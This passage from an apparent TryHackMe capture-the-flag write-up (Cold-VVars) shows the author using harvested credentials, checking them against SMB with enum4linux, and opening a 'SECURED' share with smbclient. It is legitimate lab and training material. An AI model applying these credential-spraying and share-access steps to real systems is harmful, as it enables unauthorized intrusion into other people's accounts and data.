 Found usernames and passwords!

Let's login to their account!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120173459.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120173508.png)

Hmm... Nothing.

Let's take a step back.

We still have 1 more service need to dig deeper: SMB.

**Since we have pairs of credentials, we can do password spraying:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:53:37(HKT)]
└> enum4linux -u "ArthurMorgan" -p "{Redacted}" $RHOSTS
[...]
[+] Server 10.10.207.207 allows sessions using username 'ArthurMorgan', password '{Redacted}'
[...]
```

Found a valid account in SMB!

**Let's connect to `SECURED` share!**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:55:00(HKT)]
└> smbclient //$RHOSTS/SECURED -U ArthurMorgan%{Redacted}
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Mar 22 07:04:28 2021
  ..                                  D        0  Thu Mar 11 20:52:29 2021
  note.txt                            A       45  Thu Mar 11 20:19:52 2021
```
